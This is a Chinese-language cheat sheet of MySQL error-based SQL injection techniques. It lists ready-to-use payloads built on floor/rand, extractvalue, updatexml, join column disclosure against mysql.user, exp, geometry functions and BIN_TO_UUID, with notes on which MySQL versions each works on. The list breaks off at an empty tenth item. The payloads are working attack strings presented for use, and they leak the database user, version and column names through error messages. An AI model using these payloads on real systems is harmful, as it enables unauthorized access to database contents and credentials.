 [toc]

## SQL注入类型

### 报错注入

#### 1、通过floor报错

```
select 1 from (select count(*),concat(floor(rand(0)*2),user())a from information_schema.tables group by a)b
```

#### 2、通过ExtractValue报错

extractvalue(1, concat(0x5c, (select user()),0x5c))

#### 3、通过UpdateXml报错

updatexml(1,concat(0x3a,(select user())),1)

#### 4、通过join报错(爆列名)

select * from(select * from 表名 a join 表名 b)c;

```
mysql> select * from(select * from mysql.user a join mysql.user b)c;
ERROR 1060 (42S21): Duplicate column name 'Host'
mysql> select * from(select * from mysql.user a join mysql.user b using(host))c;
ERROR 1060 (42S21): Duplicate column name 'User'
mysql> select * from(select * from mysql.user a join mysql.user b using(host,User))c;
ERROR 1060 (42S21): Duplicate column name 'Password'
```

#### 5、通过exp报错 (5.5.44通过，5.5.53以上不行)

exp(~(select * from (select user())a))

#### 6、通过GeometryCollection()报错(5.5.44通过，5.5.53以上不行)

GeometryCollection((select * from (select * from (select user())a)b))

#### 7、通过polygon ()报错(5.5.44通过，5.5.53以上不行)

polygon((select * from (select * from (select user())a)b))

#### 8、通过multipoint ()报错(5.5.47上通过，5.7.17上则不行)

multipoint((select * from (select * from (select version())a)b))

#### 9、通过UUID()报错 8.0.0以上可用

BIN_TO_UUID((SELECT version()))

#### 10、通过UUID()报错 (5.7以上通过)
